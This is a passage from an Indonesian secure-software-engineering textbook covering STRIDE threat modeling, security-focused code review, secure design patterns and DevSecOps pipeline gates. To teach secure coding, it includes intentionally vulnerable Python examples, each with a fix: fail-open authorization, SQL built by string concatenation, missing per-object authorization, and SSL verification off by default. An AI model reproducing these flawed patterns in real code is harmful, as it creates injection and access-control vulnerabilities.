## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** SBOM menjadi persyaratan regulasi (Executive Order 14028 di AS). Vendor software yang tidak dapat menyediakan SBOM akan kehilangan kontrak pemerintah. Bagaimana Anda mempersiapkan organisasi — baik secara teknis maupun prosedural — untuk memenuhi persyaratan SBOM dalam waktu 6 bulan?

**Pertanyaan Refleksi 2:** Log4Shell menunjukkan bahwa kerentanan dalam library open source yang di-maintain oleh relawan (bukan perusahaan besar) dapat berdampak global. Siapa yang bertanggung jawab memastikan library kritis tetap aman? Apakah ada kewajiban moral bagi perusahaan yang mendapat keuntungan dari open source untuk berkontribusi pada keamanannya?

---


---

# BAB 13 — THREAT MODELING DENGAN STRIDE

**Pertemuan:** 13  
**Sub-CPMK:** Sub-CPMK.5  
**CPMK:** CPMK.3, CPMK.4  
**Evaluasi:** Eval-5

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 13, mahasiswa mampu:

- Menjelaskan prinsip dan tujuan threat modeling dalam konteks SSDLC.
- Menerapkan metodologi STRIDE untuk mengidentifikasi ancaman pada sistem.
- Membuat Data Flow Diagram (DFD) sebagai input threat modeling.
- Memprioritaskan ancaman menggunakan DREAD atau CVSS.
- Mendokumentasikan hasil threat modeling dalam format yang dapat ditindaklanjuti.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    ThreatModel["Threat Modeling\ndengan STRIDE"] --> Process["Proses\n4 Pertanyaan Utama"]
    ThreatModel --> STRIDE3["Metodologi\nSTRIDE"]
    ThreatModel --> DFD2["Data Flow Diagram\n(DFD) sebagai Input"]
    ThreatModel --> Prioritize["Prioritisasi\nAncaman"]
    ThreatModel --> TreatStrategies["Strategi Penanganan\nAncaman"]

    Process --> Q1["1. Apa yang kita bangun?\n(DFD + arsitektur)"]
    Process --> Q2["2. Apa yang bisa salah?\n(STRIDE per element)"]
    Process --> Q3["3. Apa yang kita lakukan?\n(Mitigasi per ancaman)"]
    Process --> Q4["4. Apakah sudah cukup?\n(Residual risk review)"]

    STRIDE3 --> S2["S: Spoofing\n→ Authentication"]
    STRIDE3 --> T2["T: Tampering\n→ Integrity"]
    STRIDE3 --> R2["R: Repudiation\n→ Non-repudiation/Logging"]
    STRIDE3 --> I2["I: Information Disclosure\n→ Confidentiality"]
    STRIDE3 --> D2["D: Denial of Service\n→ Availability"]
    STRIDE3 --> E2["E: Elevation of Privilege\n→ Authorization"]

    DFD2 --> ExtEntity["External Entity\n(rectangle) — pengguna, sistem luar"]
    DFD2 --> Process2["Process\n(circle) — logika aplikasi"]
    DFD2 --> DataStore["Data Store\n(parallel lines) — DB, file, cache"]
    DFD2 --> DataFlow2["Data Flow\n(arrow) — data bergerak"]
    DFD2 --> TrustBound["Trust Boundary\n(dashed box) — batas kepercayaan"]

    Prioritize --> DREAD["DREAD Score\n(0-10 per dimensi)"]
    Prioritize --> CVSS2b["CVSS Base Score\n(per CVE-style)"]

    TreatStrategies --> Mitigate["Mitigate\n(tambahkan kontrol)"]
    TreatStrategies --> Eliminate["Eliminate\n(hapus fitur)"]
    TreatStrategies --> Transfer["Transfer\n(ke pihak lain)"]
    TreatStrategies --> Accept["Accept\n(dokumentasi risiko residual)"]
```

---

## 3. Pengantar Kontekstual

Threat modeling adalah praktik security-by-design yang paling impactful: daripada menemukan kerentanan setelah kode ditulis (SAST/DAST) atau setelah serangan berhasil (incident response), threat modeling mengidentifikasi ancaman sebelum sistem dibangun.

Microsoft SDLC mewajibkan threat modeling untuk semua perubahan desain. NIST SSDF (SP 800-218) memasukkan threat modeling sebagai praktik inti. OWASP menyediakan Threat Dragon (tool gratis) dan model template untuk berbagai tipe aplikasi.

Kunci threat modeling yang efektif: **lakukan bersamaan dengan perancangan arsitektur**, bukan sebagai aktivitas terpisah di akhir.

---

## 4. Landasan Teori

### 4.1 Empat Pertanyaan Threat Modeling

**Pertanyaan 1: Apa yang kita bangun?**
Buat Data Flow Diagram (DFD) yang menggambarkan:
- Semua komponen sistem (processes, data stores)
- Semua entitas eksternal (pengguna, sistem lain)
- Semua aliran data
- Batas kepercayaan (trust boundaries)

**Pertanyaan 2: Apa yang bisa salah?**
Terapkan STRIDE pada setiap elemen DFD:
- External Entity → Spoofing (S)
- Process → semua enam STRIDE (S, T, R, I, D, E)
- Data Store → Tampering (T), Information Disclosure (I), Denial of Service (D)
- Data Flow → Tampering (T), Information Disclosure (I), Denial of Service (D)

**Pertanyaan 3: Apa yang kita lakukan?**
Untuk setiap ancaman yang diidentifikasi, pilih strategi:
- **Mitigate**: tambahkan kontrol keamanan (paling umum)
- **Eliminate**: hapus fitur yang menjadi sumber ancaman
- **Transfer**: gunakan komponen yang telah divalidasi keamanannya (e.g., vendor auth)
- **Accept**: dokumentasikan dengan justifikasi dan persetujuan manajemen

**Pertanyaan 4: Apakah sudah cukup?**
Review residual risk — ancaman yang tersisa setelah semua mitigasi diterapkan.

### 4.2 STRIDE — Kategori Ancaman

| Kategori | Contoh Ancaman | Kontrol yang Relevan |
|---|---|---|
| **S**poofing | Penyerang berpura-pura sebagai user lain | Autentikasi kuat, MFA |
| **T**ampering | Modifikasi data in-transit atau at-rest | Integritas: HMAC, TLS, digital signature |
| **R**epudiation | Pengguna mengingkari tindakan mereka | Non-repudiation: audit log, digital signature |
| **I**nformation Disclosure | Data sensitif bocor | Enkripsi, access control, minimal exposure |
| **D**enial of Service | Sistem dibuat tidak tersedia | Rate limiting, redundansi, auto-scaling |
| **E**levation of Privilege | Pengguna biasa mendapat akses admin | Authorization, least privilege, RBAC |

### 4.3 Data Flow Diagram (DFD)

DFD Level 0 (Context Diagram) menggambarkan sistem secara keseluruhan. DFD Level 1 menggambarkan komponen internal.

Contoh sistem: Web API dengan autentikasi, database, dan cache.

```
External Entity [Pengguna/Browser]
    ↓ HTTPS Request (Data Flow)
[Trust Boundary: Internet → DMZ]
    ↓
Process: (1) API Gateway
    ↓ Auth Token
Process: (2) Auth Service
    ↓ User ID
    ↓ DB Query
[Trust Boundary: App → DB]
Data Store: ||Users DB||
    
Process: (2) API Business Logic
    ↓ Cache Read/Write
Data Store: ||Redis Cache||
    ↓ Response (Data Flow)
[Trust Boundary: App → Internet]
    ↓ HTTPS Response
External Entity [Pengguna/Browser]
```

### 4.4 Prioritisasi dengan DREAD

DREAD memberikan skor 0-10 untuk setiap dimensi:

| Dimensi | Pertanyaan | Rendah (1-3) | Tinggi (8-10) |
|---|---|---|---|
| **D**amage | Seberapa parah dampak jika dieksploitasi? | Data non-sensitif bocor | Akses admin penuh |
| **R**eproducibility | Seberapa mudah direproduksi? | Hanya kondisi tertentu | Selalu berhasil |
| **E**xploitability | Seberapa mudah dieksploitasi? | Butuh skill tinggi | Eksploit publik tersedia |
| **A**ffected Users | Berapa banyak pengguna terdampak? | Satu pengguna | Semua pengguna |
| **D**iscoverability | Seberapa mudah ditemukan? | Butuh akses internal | Terlihat dari publik |

**Skor DREAD** = rata-rata kelima dimensi → prioritas tinggi (>7), menengah (4-7), rendah (<4).

---

## 5. Model atau Arsitektur

### 5.1 Threat Modeling Workflow

```mermaid
flowchart LR
    Req["Requirements\n& Desain"] --> DFD3["Buat DFD\n(Level 0 + Level 1)"]
    DFD3 --> Identify["Identifikasi Ancaman\n(STRIDE per element)"]
    Identify --> DREAD2["Prioritisasi\n(DREAD / CVSS)"]
    DREAD2 --> Treat["Pilih Strategi\n(Mitigate/Eliminate/\nTransfer/Accept)"]
    Treat --> Control["Desain Kontrol\nKeamanan"]
    Control --> Verify2["Verifikasi\n(Test coverage)"]
    Verify2 --> Doc2["Dokumentasi\nThreat Model"]
    Doc2 -->|"Update saat arsitektur berubah"| DFD3
```

---

## 6. Contoh Terapan

### Studi Kasus: Threat Modeling — Sistem Transfer Dana

**Sistem:** REST API untuk transfer antar bank. Komponen: Mobile App → API Gateway → Auth Service → Transfer Service → Core Banking DB.

**Ancaman STRIDE yang Diidentifikasi:**

| ID | Elemen | Kategori | Ancaman | DREAD | Mitigasi |
|---|---|---|---|---|---|
| T1 | Data Flow: Mobile→Gateway | Spoofing | Penyerang berpura-pura sebagai mobile app yang sah | 7.2 | Certificate pinning, API key |
| T2 | Process: Auth Service | Spoofing | Credential stuffing — login paksa dengan password yang bocor | 8.0 | Rate limiting, MFA, HIBP check |
| T3 | Data Flow: Gateway→AuthSvc | Tampering | Modifikasi jumlah transfer dalam transit | 9.0 | TLS mutual auth, request signing |
| T4 | Data Store: Core Banking DB | Information Disclosure | SQL Injection mengekspos data rekening | 9.5 | Parameterized queries, minimal privilege |
| T5 | Process: Transfer Service | Elevation of Privilege | IDOR — transfer dari akun orang lain | 9.8 | Object-level auth check per transaksi |

**Keputusan per ancaman:**
- T3, T4, T5 (DREAD >9) → Mitigate, wajib sebelum launch
- T2 (DREAD 8.0) → Mitigate, tambahkan MFA dalam sprint ini
- T1 (DREAD 7.2) → Mitigate, certificate pinning di sprint berikutnya

---

## 7. Praktikum — Threat Modeling dengan OWASP Threat Dragon

**Tujuan:** Membuat threat model lengkap untuk sistem sederhana.

**Tools:** OWASP Threat Dragon (threatdragon.org atau Docker local)

**Sistem Target (untuk lab):** Aplikasi web form pengisian profil dengan upload foto.

**Tugas:**
1. Buat DFD level 1 di Threat Dragon (browser, web server, app server, DB, file storage)
2. Tambahkan trust boundaries yang tepat
3. Generate threats otomatis (STRIDE per element)
4. Review dan edit: hapus FP, tambahkan ancaman yang terlewat
5. Tentukan mitigasi untuk setiap ancaman
6. Export laporan

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Trust boundary dalam DFD merepresentasikan:
A. Batas keamanan fisik antara gedung yang berbeda  
B. Batas di mana level kepercayaan berubah dan data harus divalidasi ulang  
C. Batas antara kode frontend dan backend  
D. Firewall rule yang memblokir traffic

**Soal 2 (PG):** Threat "Repudiation" dalam STRIDE paling tepat diatasi dengan:
A. Enkripsi data  
B. Rate limiting  
C. Audit log yang tamper-evident (tidak bisa dimodifikasi)  
D. Input validation

**Soal 3 (Analisis):** Mengapa threat modeling sebaiknya dilakukan "bersamaan dengan desain arsitektur" dan bukan "setelah implementasi"? Berikan argumen konkret tentang biaya dan efektivitas.

**Soal 4 (Penerapan):** Untuk sebuah sistem notifikasi email: pengguna memasukkan alamat email, sistem mengirim email. Identifikasi minimal 3 ancaman STRIDE yang berbeda kategori.

**Soal 5 (Evaluasi):** Seorang anggota tim berpendapat: "Threat modeling terlalu memakan waktu — lebih baik langsung fix semua vulnerability yang ditemukan SAST/DAST." Evaluasi argumen ini. Apa yang bisa dilakukan threat modeling yang tidak bisa dilakukan SAST/DAST?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Threat Model Sistem Rekam Medis

Rumah sakit mengembangkan sistem rekam medis digital dengan fitur: login dokter/perawat/admin, akses rekam medis pasien, e-prescribing, dan integrasi dengan laboratorium eksternal.

**Pertanyaan:**
1. **DFD + STRIDE (C4)**: Buat DFD Level 1 untuk sistem ini (gambar atau deskripsi terstruktur). Identifikasi minimal 6 ancaman STRIDE yang berbeda, masing-masing pada elemen DFD yang berbeda. Untuk setiap ancaman: berikan skor DREAD dan justifikasinya.

2. **Mitigasi Prioritas (C5)**: Dari 6 ancaman di atas, pilih 3 dengan DREAD tertinggi dan rancang mitigasi teknis yang spesifik. Pertimbangkan tidak hanya solusi teknis tetapi juga: apakah solusi realistis dengan constraint sumber daya rumah sakit, apakah ada regulasi yang relevan (UU Kesehatan, UU ITE), dan bagaimana solusi ini mempengaruhi workflow dokter/perawat sehari-hari.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — B:** Trust boundary adalah konsep logis — batas di mana asumsi kepercayaan berubah. Data yang melewati trust boundary (misalnya dari internet ke aplikasi server, dari aplikasi ke database) harus divalidasi dan diotorisasi ulang karena tidak bisa diasumsikan aman. Ini bukan firewall fisik, walaupun trust boundary sering berkorelasi dengan batas jaringan.

**Soal 2 — C:** Repudiation = seseorang mengingkari tindakan mereka. Mitigasi yang tepat adalah audit log yang tamper-evident (tidak bisa dimodifikasi) — membuktikan siapa melakukan apa dan kapan. Digital signature juga relevan. Enkripsi (A) menjaga confidentiality, rate limiting (B) menjaga availability, input validation (D) mencegah injection.

---

## 11. Ringkasan Bab

Threat modeling adalah praktik proaktif yang mengidentifikasi ancaman sebelum sistem dibangun. Empat pertanyaan kunci: apa yang dibangun (DFD), apa yang bisa salah (STRIDE), apa yang dilakukan (mitigasi), apakah sudah cukup (review). STRIDE mengkategorikan ancaman menjadi enam jenis, masing-masing dengan kontrol keamanan yang sesuai. Prioritisasi menggunakan DREAD atau CVSS membantu tim fokus pada ancaman yang paling berisiko terlebih dahulu.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Threat modeling ideal dilakukan di awal desain — namun dalam banyak organisasi, tim keamanan tidak terlibat sampai tahap testing. Bagaimana Anda secara realistis mengadvokasi keterlibatan keamanan di awal dalam tim yang dipimpin oleh delivery deadlines?

**Pertanyaan Refleksi 2:** Threat model yang Anda buat mungkin mengidentifikasi ancaman yang membutuhkan perubahan fundamental pada arsitektur — namun perubahan ini diperkirakan menunda launch 3 bulan. Manajemen menolak penundaan. Bagaimana Anda mendokumentasikan keputusan "accept" ini dengan benar, dan apa tanggung jawab hukum dan profesional Anda jika ancaman tersebut akhirnya dieksploitasi?

---


---

# BAB 14 — PEER CODE REVIEW DAN SECURE DESIGN PATTERNS

**Pertemuan:** 14  
**Sub-CPMK:** Sub-CPMK.5  
**CPMK:** CPMK.3, CPMK.4  
**Evaluasi:** Eval-5

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 14, mahasiswa mampu:

- Menjelaskan tujuan dan proses peer code review yang berfokus pada keamanan.
- Mengidentifikasi item keamanan kritis dalam checklist code review.
- Menjelaskan dan menerapkan pola desain keamanan (Secure Design Patterns) utama.
- Membedakan kapan menggunakan pola "Fail Secure" vs "Fail Open" dan implikasi keamanannya.

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    CodeReview["Peer Code Review\n& Secure Design Patterns"] --> Review3["Peer Code Review\n(Human + Tool)"]
    CodeReview --> Patterns["Secure Design Patterns"]

    Review3 --> Process3["Proses Review:\n1. Automated check (SAST)\n2. Author walkthrough\n3. Reviewer analysis\n4. Discussion & fix\n5. Final approval"]
    Review3 --> Checklist["Security Review Checklist:\n• Input validation\n• Auth/Authz\n• Crypto usage\n• Error handling\n• Logging\n• Dependencies"]
    Review3 --> Culture["Kultur Review:\nKonstruktif, berbasis data,\ntidak menyalahkan orang"]

    Patterns --> FailSecure2["Fail Secure\n(Gagal ke posisi aman)"]
    Patterns --> LeastPriv2["Principle of Least Privilege\n(Minimal permission)"]
    Patterns --> Defense2["Defense in Depth\n(Berlapis)"]
    Patterns --> SecDefault2["Secure by Default\n(Default = aman)"]
    Patterns --> Separation2["Separation of Duties\n(Tidak ada single point of trust)"]
    Patterns --> Validation2["Complete Mediation\n(Cek setiap akses)"]
```

---

## 3. Pengantar Kontekstual

Automated tools (SAST, DAST, SCA) sangat membantu tetapi tidak dapat menggantikan human review. Beberapa kategori kerentanan hanya dapat ditemukan oleh manusia: logika bisnis yang salah, race condition yang subtle, authorization yang keliru desainnya (bukan implementasinya), dan penggunaan kriptografi yang secara teknis valid tetapi salah konteks.

Secure Design Patterns adalah solusi yang telah teruji untuk masalah desain keamanan yang berulang — sama seperti design patterns dalam software engineering umum, namun dengan fokus pada sifat-sifat keamanan.

---

## 4. Landasan Teori

### 4.1 Proses Peer Code Review Keamanan

**Fase 1 — Automated Gate:**
Sebelum review manusia, SAST harus sudah lulus. Ini menghemat waktu reviewer dengan menghilangkan issue yang dapat dideteksi otomatis.

**Fase 2 — Author Self-Review:**
Author mereview kode sendiri sebelum meminta review. Checklist standar membantu konsistensi.

**Fase 3 — Peer Review:**
```
Focus area untuk security reviewer:
□ Authentication: bagaimana identitas diverifikasi?
□ Authorization: apakah setiap aksi diperiksa per-resource?
□ Input validation: apakah semua input divalidasi? Konteks apa?
□ Output encoding: apakah output di-encode sesuai konteks?
□ Cryptography: algoritma apa? Implementasi benar?
□ Error handling: apakah error mengekspos informasi sensitif?
□ Logging: apakah event keamanan di-log? Apakah data sensitif di-log?
□ Session management: token kuat? Invalidasi benar?
□ Dependencies: apakah ada library baru yang tidak di-review?
□ Race conditions: apakah ada time-of-check time-of-use (TOCTOU)?
□ Business logic: apakah flow dapat dimanipulasi?
```

**Fase 4 — Diskusi Konstruktif:**
Review keamanan harus berfokus pada kode, bukan pada person. Bukan "Kamu menulis SQLi", tapi "Baris 45: query string concatenation rentan SQLi — pertimbangkan parameterized query".

### 4.2 Secure Design Patterns

#### Pattern 1: Fail Secure (Fail Closed)

**Prinsip:** Jika terjadi error atau kondisi yang tidak terduga, sistem harus gagal ke posisi yang aman (tolak akses), bukan ke posisi yang terbuka.

```python
# RENTAN — Fail Open (berbahaya!)
def check_authorization(user_id, resource_id):
    try:
        permission = db.get_permission(user_id, resource_id)
        return permission.allowed
    except Exception:
        return True  # Error → beri akses! ← SALAH

# AMAN — Fail Secure (Fail Closed)
def check_authorization(user_id, resource_id):
    try:
        permission = db.get_permission(user_id, resource_id)
        return permission.allowed
    except Exception as e:
        logger.error(f"Authorization check failed: {e}")
        return False  # Error → tolak akses → aman
```

#### Pattern 2: Least Privilege

**Prinsip:** Setiap komponen hanya diberikan permission minimal yang dibutuhkan.

```python
# RENTAN — Database user dengan semua permission
DB_USER = "admin"  # Full DBA privileges

# AMAN — Database user dengan permission minimal
# Di database:
# CREATE USER 'app_user'@'localhost' IDENTIFIED BY 'strong_pass';
# GRANT SELECT, INSERT, UPDATE ON mydb.users TO 'app_user';
# GRANT SELECT ON mydb.products TO 'app_user';
# (Tidak ada DROP, DELETE seluruh tabel, CREATE TABLE, etc.)

# Di aplikasi: gunakan user yang tepat untuk setiap operasi
read_only_conn = create_connection(user='app_readonly')
write_conn = create_connection(user='app_write')
```

#### Pattern 3: Defense in Depth

**Prinsip:** Tidak bergantung pada satu kontrol keamanan tunggal — berlapis sehingga jika satu lapisan gagal, lapisan berikutnya masih melindungi.

```
Lapisan untuk mencegah unauthorized data access:
Layer 1: Network — WAF, firewall, IDS
Layer 2: Application — Authentication & Authorization
Layer 3: Code — Input validation, parameterized queries
Layer 4: Database — Row-level security, minimal privilege DB user
Layer 5: Encryption — Data at-rest encryption
Layer 6: Monitoring — Anomaly detection, audit logging

→ Jika SQL Injection berhasil bypass Layer 3, Layer 4 membatasi damage
→ Jika Layer 4 bypass, Layer 5 membuat data tidak berguna tanpa key
```

#### Pattern 4: Secure by Default

**Prinsip:** Konfigurasi default harus aman. Pengguna harus secara eksplisit meng-opt-in ke konfigurasi yang kurang aman (jika diizinkan), bukan sebaliknya.

```python
# RENTAN — Default tidak aman
class APIClient:
    def __init__(self, verify_ssl=False, timeout=None):  # Default off!
        ...

# AMAN — Default aman
class APIClient:
    def __init__(self, verify_ssl=True, timeout=30):  # Default on, ada timeout
        ...

# Contoh dalam web framework:
# Flask debug mode: default OFF (aman)
# Django DEBUG: default False di production (aman)
```

#### Pattern 5: Complete Mediation

**Prinsip:** Setiap akses ke resource harus diperiksa otorisasinya — tidak ada "trusted shortcut" yang melewati pemeriksaan.

```python
# RENTAN — Asumsi jika user sudah login, boleh akses apa saja
@app.route('/api/documents/<int:doc_id>')
@login_required  # Hanya cek login
def get_document(doc_id):
    doc = Document.query.get(doc_id)  # Tidak cek apakah user punya akses!
    return jsonify(doc.to_dict())

# AMAN — Complete Mediation: cek setiap akses
@app.route('/api/documents/<int:doc_id>')
@login_required
def get_document(doc_id):
    doc = Document.query.filter_by(
        id=doc_id,
        owner_id=current_user.id  # Atau cek permission tabel
    ).first_or_404()
    return jsonify(doc.to_dict())
```

---

## 5. Model atau Arsitektur

### 5.1 Security Review dalam PR Workflow

```mermaid
flowchart LR
    PR2["Developer\nBuat PR"] --> SAST5["Auto: SAST\n(Semgrep/SonarQube)\nDalam 5 menit"]
    SAST5 --> SCACheck["Auto: SCA\n(Trivy)\nDalam 5 menit"]
    SCACheck --> AutoPass{"Auto checks\npass?"}
    AutoPass -->|No| FixCode["Developer fix\nautomated issues"]
    FixCode --> PR2
    AutoPass -->|Yes| HumanReview["Human Security\nCode Review\n(Checklist)"]
    HumanReview --> SecurityApproval{"Security\nApproval?"}
    SecurityApproval -->|"Issues found"| ReviewComment["Reviewer tambah\nkomentar di PR"]
    ReviewComment --> DevFix["Developer\naddress issues"]
    DevFix --> HumanReview
    SecurityApproval -->|Approved| Merge2["Merge ke main"]
```

---

## 6. Contoh Terapan

### Studi Kasus: Code Review — Menemukan Authorization Flaw

**Kode yang Disubmit untuk Review:**
```python
@app.route('/api/invoices/<int:invoice_id>/pay', methods=['POST'])
@jwt_required
def pay_invoice(invoice_id):
    invoice = Invoice.query.get(invoice_id)
    if invoice is None:
        return jsonify({"error": "Not found"}), 404
    
    # Process payment
    payment = process_payment(
        amount=invoice.amount,
        card_token=request.json['card_token']
    )
    
    invoice.status = 'paid'
    invoice.paid_at = datetime.now()
    db.session.commit()
    
    return jsonify({"success": True, "payment_id": payment.id})
```

**Security Review Comment:**
```
🔴 CRITICAL — Missing Authorization Check (CWE-862, OWASP A01)

Line 3: `invoice = Invoice.query.get(invoice_id)` tidak memverifikasi
apakah invoice ini milik pengguna yang sedang login.

Dampak: User A dapat membayar invoice milik User B → pembayaran
didebet dari kartu User A untuk invoice milik User B (atau sebaliknya
jika logic berbeda).

Perbaikan:
```python
current_user_id = get_jwt_identity()
invoice = Invoice.query.filter_by(
    id=invoice_id,
    customer_id=current_user_id
).first_or_404()
```

Ref: OWASP API Top 10 API1:2023 - BOLA
```

---

## 7. Praktikum — Code Review Keamanan

**Tujuan:** Melakukan security-focused code review pada kode yang disediakan.

**Tugas:**
1. Review kode Python Flask yang disediakan (5 file, ~200 baris total)
2. Gunakan security checklist — tandai setiap item sebagai: OK / Issue / Not applicable
3. Tulis review comments dalam format yang konstruktif
4. Buat summary laporan: jumlah issue per severity, pattern yang sering muncul

**Kriteria Penilaian:**
- Jumlah true positive yang ditemukan
- Kualitas review comment (spesifik, dengan referensi, konstruktif)
- Tidak ada false positive yang tidak justified

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** "Fail Secure" berarti:
A. Sistem selalu berhasil sehingga tidak pernah gagal  
B. Jika terjadi error, sistem memberikan akses default agar pengguna tidak terganggu  
C. Jika terjadi error, sistem menolak akses dan gagal ke kondisi yang aman  
D. Sistem mengenkripsi semua data sebelum gagal

**Soal 2 (Analisis):** Mengapa "Race Condition" (TOCTOU — Time of Check Time of Use) sulit dideteksi oleh SAST? Berikan contoh konkret TOCTOU dan mitigasinya.

**Soal 3 (Penerapan):** Identifikasi Secure Design Pattern mana yang dilanggar oleh kode berikut dan jelaskan bagaimana memperbaikinya:
```python
def delete_user(request):
    user_id = request.form['user_id']
    if request.user.role == 'admin':  # Hanya cek saat ini
        db.execute(f"DELETE FROM users WHERE id = {user_id}")
```

**Soal 4 (Desain):** Rancang sistem logging yang menangkap semua event keamanan tanpa menyimpan data sensitif (seperti password, token, nomor kartu kredit).

**Soal 5 (Evaluasi):** "Complete Mediation" menyarankan setiap akses diperiksa. Apakah ini bisa menjadi bottleneck performa dalam aplikasi high-traffic? Bagaimana mengimplementasikan Complete Mediation secara efisien?

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Implementasi Secure Review Process di Tim Agile

Tim agile 8 developer menggunakan sprint 2 minggu. Saat ini tidak ada security review process yang formal — developer langsung merge ke main setelah 1 peer review (non-security).

**Pertanyaan:**
1. **Desain Process (C4)**: Rancang security code review process yang dapat diintegrasikan ke sprint agile tanpa menghambat velocity secara signifikan. Pertimbangkan: siapa yang melakukan security review, berapa lama average waktu review, bagaimana menangani emergency hotfix yang perlu merge cepat, dan bagaimana mengukur efektivitas process.

2. **Checklist Adaptif (C4-C5)**: Buat security review checklist yang berbeda bobotnya berdasarkan risiko perubahan kode: (a) perubahan logika bisnis kritis (payment, auth), (b) perubahan UI minor, (c) penambahan dependency baru, (d) perubahan konfigurasi infrastruktur. Jelaskan reasoning di balik perbedaan bobot tersebut.

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C:** Fail Secure = fail closed. Ketika kondisi error atau tak terduga terjadi, sistem harus mengambil posisi yang paling konservatif (tolak akses) bukan posisi yang paling nyaman (beri akses). Ini terutama penting untuk sistem keamanan: jika firewall crash, harus memblokir semua traffic (fail closed), bukan membiarkan semua traffic lewat (fail open).

**Soal 3:** Kode tersebut melanggar dua pattern:
(a) **Complete Mediation**: Tidak ada cek apakah `user_id` yang dihapus boleh dihapus oleh admin ini — admin dari divisi A mungkin tidak boleh hapus user di divisi B.
(b) **Parameterized Query** (implementasi, bukan design pattern secara formal): `f"DELETE ... WHERE id = {user_id}"` adalah SQL Injection.

Perbaikan:
```python
def delete_user(request):
    if request.user.role != 'admin':
        return 403
    user_id = int(request.form['user_id'])  # Validasi tipe
    # Complete mediation: cek scope
    user_to_delete = User.query.filter_by(
        id=user_id,
        organization_id=request.user.organization_id  # Scope check
    ).first_or_404()
    db.session.delete(user_to_delete)
    db.session.commit()
```

---

## 11. Ringkasan Bab

Peer code review keamanan melengkapi automated tools dengan kemampuan manusia untuk mendeteksi logika bisnis yang keliru, race condition, dan design flaw. Secure Design Patterns memberikan kerangka yang telah teruji: Fail Secure (gagal ke posisi aman), Least Privilege (minimal permission), Defense in Depth (berlapis), Secure by Default (konfigurasi default aman), dan Complete Mediation (periksa setiap akses). Keduanya harus menjadi bagian integral dari workflow development, bukan aktivitas terpisah.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Dalam beberapa kasus, "Fail Secure" vs "Fail Open" adalah dilema etis, bukan hanya teknis. Sistem kendali keselamatan industri (mesin pabrik, peralatan medis) — jika sistem gagal dan "Fail Secure" berarti menghentikan mesin yang sedang beroperasi, ini bisa membahayakan nyawa. Bagaimana Anda menavigasi dilema antara keamanan informasi dan keselamatan fisik dalam konteks sistem kritis?

**Pertanyaan Refleksi 2:** Code review adalah proses peer-to-peer yang dapat menjadi sumber ketegangan interpersonal. Bagaimana Anda memastikan bahwa review keamanan yang mengidentifikasi banyak masalah pada kode seseorang tidak merusak hubungan tim atau menghambat orang tersebut untuk meminta review di masa depan?

---

# BAB 15 — DEVSECOPS: CI/CD PIPELINE DAN SECURITY GATES

**Pertemuan:** 15  
**Sub-CPMK:** Sub-CPMK.5  
**CPMK:** CPMK.3, CPMK.4  
**Evaluasi:** Eval-5

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 15, mahasiswa mampu:

- Menjelaskan prinsip DevSecOps dan perbedaannya dari DevOps yang mengabaikan keamanan.
- Merancang CI/CD pipeline dengan security gates di setiap tahap.
- Mengimplementasikan pipeline GitHub Actions dengan integrasi Semgrep, Trivy, dan ZAP.
- Menjelaskan konsep "shift-left" security dan bagaimana mengukur maturitas DevSecOps.

---

## 2. Peta Konsep Bab

```mermaid
flowchart LR
    DevSecOps["DevSecOps\nCI/CD Pipeline"] --> Plan2["Plan\n• Threat Modeling\n• Security Requirements"]
    Plan2 --> Code2["Code\n• Secure Coding Guidelines\n• Pre-commit hooks\n• IDE plugins"]
    Code2 --> Build2["Build\n• SAST (Semgrep/SonarQube)\n• Secret Scanning\n• License Check"]
    Build2 --> Test2["Test\n• DAST Baseline (ZAP)\n• SCA (Trivy)\n• SBOM Generation"]
    Test2 --> Release2["Release\n• Sign artifacts (cosign)\n• Container image scan\n• Approval gate"]
    Release2 --> Deploy2["Deploy\n• IaC Security Scan\n• Runtime config check"]
    Deploy2 --> Operate["Operate\n• Runtime monitoring\n• SIEM integration\n• Incident response"]
    Operate --> Monitor["Monitor\n• CVE feed monitoring\n• Patch management\n• Metrics"]
    Monitor -->|"Continuous Feedback"| Plan2
    
    style Plan2 fill:#e8f5e9
    style Code2 fill:#e8f5e9
    style Build2 fill:#fff3e0
    style Test2 fill:#fff3e0
    style Release2 fill:#fce4ec
    style Deploy2 fill:#fce4ec
    style Operate fill:#e3f2fd
    style Monitor fill:#e3f2fd
```

---

## 3. Pengantar Kontekstual

DevSecOps adalah evolusi dari DevOps yang mengintegrasikan keamanan sebagai tanggung jawab bersama di seluruh tim (Development, Security, Operations), bukan hanya domain tim keamanan yang terpisah. Prinsip "shift-left" berarti memindahkan pemeriksaan keamanan ke tahap paling awal memungkinkan — jauh sebelum deployment ke produksi.

**Fakta penting:** Biaya perbaikan kerentanan meningkat secara eksponensial semakin lambat ditemukan:
- Saat coding: ×1 (developer fix langsung)
- Saat code review: ×6
- Saat QA/testing: ×15
- Setelah production release: ×100+
- Setelah insiden: ×1000+ (termasuk breach cost, reputasi, regulasi)

---

## 4. Landasan Teori

### 4.1 Security Gates dalam CI/CD

Security gate adalah kondisi yang harus dipenuhi sebelum pipeline melanjutkan ke tahap berikutnya. Kegagalan security gate menghentikan pipeline dan memaksa perbaikan.

```
Pipeline stages dengan security gates:

1. Pre-commit (lokal, developer)
   Gate: Pre-commit hooks (secret detection, basic linting)
   Tools: git-secrets, detect-secrets, pre-commit framework

2. Pull Request / Merge Request
   Gate: SAST, Secret Scan, License Check
   Tools: Semgrep, Gitleaks, FOSSA
   Kondisi: 0 critical/high new issues

3. Build
   Gate: Dependency Vulnerability Check
   Tools: Trivy, OWASP Dependency-Check
   Kondisi: 0 critical CVE in dependencies

4. Test (Staging deploy)
   Gate: DAST Baseline Scan, Integration Security Tests
   Tools: OWASP ZAP Baseline
   Kondisi: 0 high risk alerts

5. Release
   Gate: Manual security approval (untuk major release)
   Gate: Artifact signing
   Tools: cosign (Sigstore), GPG

6. Deploy
   Gate: IaC security check (Terraform/Ansible)
   Tools: Checkov, tfsec
```

